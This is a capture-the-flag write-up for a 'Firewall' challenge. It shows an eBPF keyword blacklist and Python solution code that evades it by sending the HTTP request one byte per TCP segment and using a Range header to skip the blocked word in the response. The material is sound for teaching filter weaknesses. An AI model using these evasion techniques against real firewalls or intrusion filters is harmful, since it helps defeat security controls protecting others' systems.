


## Firewall  


We are given a simple webpage with a `/flag.html` endpoint. The backend implements a firewall that prevents direct access to the flag endpoint.  



Looking at the firewall source code, we can see that it implements a simple blacklist, and drops any packet that violates the blacklist.  

```c
#define KW_LEN 4
static const char blocked_kw[KW_LEN] = "flag";
static const char blocked_char = '%';

...

if (has_blocked_kw(skb, ETH_HLEN + ip_hdr_size, ip_tot_len - ip_hdr_size)) {
    return TC_ACT_SHOT;
}
if (has_blocked_char(skb, ETH_HLEN + ip_hdr_size, ip_tot_len - ip_hdr_size)) {
    return TC_ACT_SHOT;
}
```

To bypass `flag` being blacklisted, we can use TCP segmentation to send the `GET` request to `/flag.html` one byte at a time.  

```python
r = remote(HOST, PORT)
r.sock.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)

req = f'''
GET /flag.html HTTP/1.1
Host: {HOST}
Connection: close
'''

req = f"{req.strip().replace('\n', '\r\n')}\r\n\r\n".encode()

for b in req:
    r.send(bytes([b]))
    time.sleep(0.0005)
```

The response has a status code `200`, but it doesn't contain the flag page content. This shows that our `GET` request bypassed the firewall, but the response text likely violated the blacklist and the response packets got dropped.  

```
HTTP/1.1 200 OK
Server: nginx/1.29.3
Date: Sat, 10 Jan 2026 16:32:00 GMT
Content-Type: text/html
Content-Length: 213
Last-Modified: Mon, 05 Jan 2026 01:15:39 GMT
Connection: close
ETag: "695b10bb-d5"
Accept-Ranges: bytes
```

Looking at the HTML source for `flag.html`, we can see that it indeed contains `flag`, which triggers the firewall.  

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8" />
  <title>Flag!</title>
</head>
<body>
  <h1>Here is your free flag: TEST{FLAG}</h1>
</body>
</html>
```

To bypass this, we can just extract the content starting from the index after `flag` using the `Range` header.  

```python
OFFSET = open("flag.html").read().index(":")    # 133

req = f'''
GET /flag.html HTTP/1.1
Host: {HOST}
Range: bytes={OFFSET}-
Connection: close
'''
```

Our revised payload will successfully bypass the firewall and retrieve the flag.  



Flag: `uoftctf{f1rew4l1_Is_nOT_par7icu11rLy_R0bust_I_bl4m3_3bpf}`